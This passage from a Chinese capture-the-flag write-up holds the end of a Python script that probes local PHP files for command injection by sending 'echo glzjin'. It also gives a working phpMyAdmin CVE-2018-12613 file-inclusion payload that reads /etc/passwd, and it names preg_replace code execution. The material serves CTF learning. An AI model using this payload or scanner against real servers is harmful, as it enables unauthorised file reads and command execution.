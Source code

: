 ```python
        data[i] = data[i][:-1]
 
    r = session.post('http://127.0.0.1/src/' + file, data=data, params=params)
    if r.text.find('glzjin') != -1:
        mutex.acquire()
        print(file + " found!")
        mutex.release()
 
    # system test
    for i in params:
        params[i] = 'echo glzjin'
 
    for i in data:
        data[i] = 'echo glzjin'
 
    r = session.post('http://127.0.0.1/src/' + file, data=data, params=params)
    if r.text.find('glzjin') != -1:
        mutex.acquire()
        print(file + " found!")
        mutex.release()
 
    # print("====================")
 
for file in files:  # 遍历文件夹
    if not os.path.isdir(file):  # 判断是否是文件夹，不是文件夹才打开
        # read_file(file)
 
        pool.submit(read_file, file)
```

# 0x23.[GWCTF 2019]我有一个数据库

考点就是：phpMyadmin(CVE-2018-12613)后台任意文件包含漏洞

怎么说呢，有点离谱，啥都没有就能知道是这个洞？

有人说猜到有phpmyadmin直接进去了，，，行吧。

> phpMyadmin(CVE-2018-12613)后台任意文件包含漏洞
>
> 影响版本：4.8.0——4.8.1
>
> payload: /phpmyadmin/?target=db_datadict.php%253f/../../../../../../../../etc/passwd

可以正常出现，文件改为flag就出来了

# 0x24.[BJDCTF2020]ZJCTF，不过如此

>   知识点：
>
>   preg_replace代码执行，
>
>   先知社区：https://xz.aliyun.com/t/2557
>
>   国光师傅：https://www.sqlsec.com/2020/07/preg_replace.html
